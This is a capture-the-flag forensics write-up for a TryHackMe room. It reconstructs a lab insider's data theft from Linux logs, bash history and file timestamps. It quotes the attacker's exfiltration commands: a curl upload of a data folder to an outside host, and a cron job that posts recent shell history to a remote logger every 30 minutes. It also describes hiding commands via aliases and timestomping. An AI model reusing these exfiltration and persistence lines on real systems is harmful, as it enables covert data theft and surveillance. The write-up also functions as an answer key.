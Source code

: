 # [TryHackMe - ExfilNode](https://tryhackme.com/room/exfilnode)
![a3c19e727c5a8de1c7ddf9bb62c1e878.png](/resources/a3c19e727c5a8de1c7ddf9bb62c1e878.png)
***
The analysis of Liam's company-provided Windows workstation in the DiskFiltration room revealed major evidence of his involvement in the TECH THM's data exfiltration. However, he could argue that he was framed as he did not own the workstation. So, to uncover the whole truth and gather all the possible undeniable evidence, the investigators turned their attention to Liam's personal workstation (Linux machine), which was suspected to have played a key role in handling the exfiltrated data.

As this was Liam's personal workstation, he had full control over covering his tracks more effectively. But was he careful enough? It seems like the investigators not only revealed more about the external entity Liam worked with but also exposed a betrayal: Liam was double-crossed.

>When did Liam last logged into the system? (Format: YYYY-MM-DD HH:MM:SS)

![c9852dd5aacb1629068349e3e9c751bf.png](/resources/c9852dd5aacb1629068349e3e9c751bf.png)

After started the machine, we can access `/mnt/liam_disk` to start our investigation but do not forget to change user to `root` to make investigation easier when dealing with file owned by `root`

![949ef1eec4976b2eb73053f2f2060677.png](/resources/949ef1eec4976b2eb73053f2f2060677.png)

First artefact we could utilize to determine the login time is `wtmp` and normally, we could use `last` command without any argument in the live environment to display the content of `wtmp` but in this case, we have to specify the file to read with `-f` then we can see that the latest logged in time with "logon screen" happened at Feb 28 15:59 (UTC time) 

![022ab185b744b541a368d0e93e3975e7.png](/resources/022ab185b744b541a368d0e93e3975e7.png)

To get the accurate timestamp, we will utilize the `auth.log` with `grep "session opened" auth.log -a | grep gdm` command to display all session opened event from GNOME Display Manager (gdm) which is the normal way when logged in to the system via GUI and for some reasons, this room accepted the timestamp display on the log directly without converting to UTC so we can copy timestamp from the last line and change "T" to space to answer this. 

```
2025-02-28 10:59:07
```

>What was the timezone of Liam’s device?

![15b0ec0efaedb4f34f4f78493295d4d1.png](/resources/15b0ec0efaedb4f34f4f78493295d4d1.png)

We can get the timezone of Unix-like system from the `etc/timezone` file as shown in the image above.

```
America/Toronto
```

>What is the serial number of the USB that was inserted by Liam?

![c11d4d9a85299487fdf7e5270b18c8ca.png](/resources/c11d4d9a85299487fdf7e5270b18c8ca.png)

We can cheese our way out from the `/mnt/liam_disk/var/log` with the command `grep -i usb ./*` to display everything that has "usb" string in it which we will find the Product name, Serial number, Manufacturer, connected and disconnected time from the `syslog` as shown in the above image.

```
2651931097993496666
```

>When was the USB connected to the system? (Format: YYYY-MM-DD HH:MM:SS)
```
2025-02-28 10:59:25
```

>What command was executed when Liam ran 'transferfiles'?

![ea468ef357bc14817e219412164ac9df.png](/resources/ea468ef357bc14817e219412164ac9df.png)

There is a `transferfiles` command was executed on the `.bash_history` which mean the user executed this command but I could not find this binary from any of the path so I used `grep` to find for this string which I found out from the result that Liam added alias to `.bashrc` which will execute copy command to copy all files from USB drive to `Data` directory located on the Documents folder of liam's user. this is a very tricky way to hide the actual command execution from bash history.

```
cp -r \"/media/liam/46E8E28DE8E27A97/Critical Data TECH THM\" /home/liam/Documents/Data
```

>What command did Liam execute to transfer the exfiltrated files to an external server?

![100d0fdc0a67060ae58a9648a5bd158a.png](/resources/100d0fdc0a67060ae58a9648a5bd158a.png)

Its time to look at the bash history again which we can see that after listing usb, the user then copied all files from usb to `Data` directory then use `set -o history` to make sure that command execution from shell will be logged in the bash history which Liam then proceeded to use curl to exfiltrate files from `Data` directory to `http://tehc-thm.thm/upload` once all files were successfully copied to `Data` directory.

```
curl -X POST -d @/home/liam/Documents/Data http://tehc-thm.thm/upload
```

>What is the IP address of the domain to which Liam transferred the files to?

![ffb854779256168804d0cd7f49d28c03.png](/resources/ffb854779256168804d0cd7f49d28c03.png)

We can look `/etc/hosts` file that matches an FQDN with the server IP of specific domain and we can see that the previously found domain was mapped to 5.45.102.93 on Liam's system.

```
5.45.102.93
```

>Which directory was the user in when they created the file 'mth'?

![e0f87b33f03ddec9a78d0f38b1289944.png](/resources/e0f87b33f03ddec9a78d0f38b1289944.png)

We are back to `auth.log` that stores the command history of `sudo` which we found from the bash history that user used `sudo` with `nano` to created `mth` file so we can use this log to find the PWD or working directory when this command was executed and we can see that the command was executed from Liam's home directory. 

```
/home/liam
```

>Remember Henry, the external entity helping Liam during the exfiltration? What was the amount in USD that Henry had to give Liam for this exfiltration task?

![f3e9760c9ba0a3df29c804695d85799d.png](/resources/f3e9760c9ba0a3df29c804695d85799d.png)

Its time to read the content of `mth` file which we can see that Henry offered Liam $10000 for this work.

```
10000
```

>When was the USB disconnected by Liam? (Format: YYYY-MM-DD HH:MM:SS)

![ef2daec820ef9e1637a4ca19bf30ce92.png](/resources/ef2daec820ef9e1637a4ca19bf30ce92.png)

Back to `syslog`, we can see the USB disconnected event happened at 11:44:00 (-05.00 UTC) indicates by the string "USB disconnect, device number 2"

```
2025-02-28 11:44:00
```

>There is a .hidden/ folder that Liam listed the contents of in his commands. What is the full path of this directory?

![b0ff975b678dc9e4eb351afcd309df68.png](/resources/b0ff975b678dc9e4eb351afcd309df68.png)

We can check out the home directory of liam user which we can see that even though there is the `.hidden` directory on this directory but there is nothing inside we my next target would be Public directory since it was updated on Feb 28 as well.

![6750bc2a1acb293cdf3877ded3802264.png](/resources/6750bc2a1acb293cdf3877ded3802264.png)

And then we can see that there is another `.hidden` folder on this directory so this is the one we are looking for.

```
/home/liam/Public
```

>Which files are likely timstomped in this .hidden/ directory (answer in alphabetical order, ascending, separated by a comma. e.g example1.txt,example2.txt)

![fb2b01fd29473ab7982f9a681ee7d292.png](/resources/fb2b01fd29473ab7982f9a681ee7d292.png)

Lets check out `.hidden` directory, and then we can see that there are 8 empty text files on this directory and there are 2 files that does not have the same updated timestamp as the rest. 

![07c515aa0e57c5f77e3279405fa9efb7.png](/resources/07c515aa0e57c5f77e3279405fa9efb7.png)

We can use `stat` command to find out the MACB timestamp of both files which we can see that the actual file creation (Birth) of both file aligns with the timeline of this incident and we also confirmed the timestomping technique as well. 

```
file3.txt,file7.txt
```

>Liam thought the work was done, but the external entity had other plans. Which IP address was connected via SSH to Liam's machine a few hours after the exfiltration? 

![f957310e2867be61483defaf23da3ac3.png](/resources/f957310e2867be61483defaf23da3ac3.png)

We can find out the logon timestamp via SSH from `auth.log` file with the simple command such as `grep -i -a Accepted auth.log` which reveals the successful authentication with the password on SSH, and we can see that we only have 1 record and it was connected from the external IP as well.

```
94.102.51.15
```

>Which cronjob did the external entity set up inside Liam’s machine?

![9493aaf7f8c012ea8b7942d7f5faca83.png](/resources/9493aaf7f8c012ea8b7942d7f5faca83.png)

I didn't see anything from `/etc/crontab` so I checked out the `/var/spool/cron/crontab` which I found cronjob of liam user exfiltrate last 5 commands from bash history every 30 minute to the website hosting on 192.168.1.23

```
*/30 * * * * curl -s -X POST -d "$(whoami):$(tail -n 5 ~/.bash_history)" http://192.168.1.23/logger.php
```

![dd55176cb3873b987ce4770523790032.png](/resources/dd55176cb3873b987ce4770523790032.png)

And now we are done!
***